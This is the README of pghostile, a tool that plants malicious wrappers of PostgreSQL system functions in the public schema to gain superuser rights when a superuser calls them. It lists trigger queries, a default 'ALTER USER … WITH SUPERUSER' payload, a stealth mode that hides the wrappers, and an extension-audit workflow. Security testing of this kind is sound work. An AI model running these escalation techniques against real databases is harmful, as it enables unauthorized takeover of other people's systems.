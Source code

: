 # PGHOSTILE
Pghostile can make PostgreSQL® an hostile environment for superusers and a nice playground for attackers.
Pghostile is an automated tool for overriding "system" functions (the ones from the 'pg_catalog' schema) allowing an attacker to elevate privileges if/when these functions are called by a superuser.

It can be also used to test the security of the PostgreSQL extension. You can run pghostile to create the "exploit functions" and then run the extension's unit tests and see if you get superuser power after that.

See our blog post about pghostile and PostgreSQL extension security: [Aiven's Blog](https://aiven.io/blog/aiven-security-agent-for-postgresql).

## How it works
In PostgreSQL every function is identified by it's name plus the number/types of arguments (like in Java). If a function is defined to accept a numberic value and you define a function with the same name that accepts an integer, your function will be called if the input parameter is an integer and the original one will be called if the input is a float.
Considering that an unprivileged user can create functions in the public schema and that the public schema is part of the 'search_path', it's relatively easy to trick a superuser to run code from public instead of pg_catalog.

In a few words, pghostile searches pg_catalog for functions (and operators) that can be overridden and creates a malicious wrapper of them in the public schema.

Currently, it can identify ~1000 calls that can lead to privilege escalation. To give an example, the list below contains some of them:
```SQL
select 1.1 * 1;
select 1 = 1.1;
select 1.1 / 1;
select array [1, 2] = array [1, 2];

select sha256('randstr');
select unnest(array [1, 2]);
select array_replace(array [1, 2], 1, 1);
select date_cmp('2022-07-12', '2022-07-12');
select time_cmp('00:00:00', '00:00:00');
select varcharout('randstr');
select round(1, 1);
select floor(1);
select power(1, 1);
select int4(1);
select div(1, 1);
select format('randstr', 1);
select pg_sleep(1.1);
select inet_out('10.0.0.1');
select hashmacaddr('01:01:01:02:02:02');
select hashinet('10.0.0.1');
select xml_out('<foo />');
select json_out('[true]');
select uuid_out('93967025-8c89-4320-ad51-4ef50694502f');
```

Then, if the superuser runs something like `select sha256('test123')` you will be superuser in no time ;)

## Usage
```
positional arguments:
  db_username           Database username
  db_name               Database name

optional arguments:
  -h, --help            show this help message and exit
  -X, --disable-exploits-creation
                        Do not create exploit functions
  -H DB_HOST, --db-host DB_HOST
                        Database host (default 127.0.0.1)
  -p DB_PORT, --db-port DB_PORT
                        Database port
  -P, --ask-pass        Prompt for database passsword
  -o OUT, --out OUT     Output dir (deafult ./out)
  -T, --skip-tests      Disable test
  -s, --disable-stealth-mode
                        Disable stealth mode
  -S DB_SSL_MODE, --db-ssl-mode DB_SSL_MODE
                        Database ssl mode (default None)
  -x EXPLOIT_PAYLOAD, --exploit-payload EXPLOIT_PAYLOAD
                        The SQL commands
  -t, --track-execution
                        Track the exploit function execution
  -O, --no-overwrite    Stop execution if at least one exploit function already exists
```

With the -X option you can disable the actual exploit creation. It will just run the tests to see which functions can be overridden.
With the -T option you can disable the tests and just create the exploit functions.
The -x option allows you to specify what SQL command(s) should be used in your exploit. By default it's ```ALTER USER <db_username> WITH SUPERUSER;```.
The -s option disables the "stealth mode". In stealth mode the wrapping functions will call the original function from pg_catalog, in this way the superuser won't see any anomaly when calling a wrapped function. There are also less chances to break execution flows that could bring us to other vulnerable points.
The -t option enables the tracking of the execution of the exploit functions. It means that every successfull call of an exploit function is logged into a table of the current DB (pghostile.triggers). It's useful for extension analisys.
The -p option forces the DB's password request even if the PGPASSWORD environment variable is set.

### Example
```
pghostile.py user1 testdb -H 10.0.0.100
```
```
Starting ...

[ * ] 1272 interesting functions have been identified
[ * ] Detecting operators
[ * ] Testing 1697 functions
[ * ] 907 exploitable functions found
[ * ] 1005 function and parameters combinations run successfully
[ * ] 70 operators call run successfully
[ * ] Creating exploit functions
[ * ] Done!

907 functions have been created
1075 queries can trigger the exploit
The './out' folder contains the output
```

## PG Extension audit
Pghostile can be used to audit the security of PostgreSQL extensions:
1. Run pghostile with the '-t' option to enable execution tracking
```
pghostile.py -t user1 testdb
```
2. Run, as superuser, as many extension's queries/functions as possible
```
psql -U postgres testdb < extension_queries.sql
```
3. Check if you are superuser
```sql
SELECT rolsuper FROM pg_roles where rolname='user1'
```
4. If you are superuser, all the functions that triggered the exploit are listed in:
```sql
select * from pghostile.triggers
```

## Trademarks
The terms Postgres and PostgreSQL are registered trademarks of the PostgreSQL Community Association of Canada.
